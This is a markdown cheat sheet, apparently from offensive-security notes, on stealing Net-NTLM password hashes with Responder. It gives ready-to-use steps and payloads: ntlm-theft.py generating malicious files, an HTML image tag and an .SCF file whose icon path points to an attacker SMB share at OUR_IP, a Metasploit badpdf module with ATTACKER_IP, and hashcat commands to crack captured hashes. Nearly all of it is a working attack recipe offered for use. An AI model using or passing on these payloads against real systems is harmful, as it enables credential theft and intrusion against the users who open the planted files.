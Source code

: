 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

     <html>
       <body>
         <img src=\\OUR_IP\share\WHATEVER.png />
            </body>
     </html>

#### 2) On a windows machine, use the HTML Help Workshop https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138

#### 3) Open HTML Help Workshop then go to: File -> New -> Project. Save at any folder you like

#### 4) In the next window, click the box to include HTML files

#### 5) Select your created HTML file here

#### 6) In the tool bar, click the compile button. Then when prompted, click compile.

#### 7) Copy your compiled .chm file to your linux machine, then upload it to your target machine.

#### 8) PROFIT!

### .SCF Files

#### 1) Create an .scf file that points to your SMB server

     [Shell]
     Command=2
     IconFile=\\OUR_IP\share\pwn.ico
     [Taskbar]
     Command=ToggleDesktop

#### 2) sudo responder -I INTERFACE (Start responder)

#### 3) Upload the .scf file to a writebale SMB share

#### 4) Crack the hash you captured with hashcat

### .PDF Files

Use the metasploit module to craft a malicious PDF file

    use auxiliary/fileformat/badpdf

Set correct parameters

    set FILENAME filename.pdf

    set LHOST ATTACKER_IP

    exploit

Run responder

    sudo responder -I INTERFACE

Upload file to target server, then wait for someone to click on the file to capture his NetNTLMv2 hash.

Crack it with hashcat

    hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
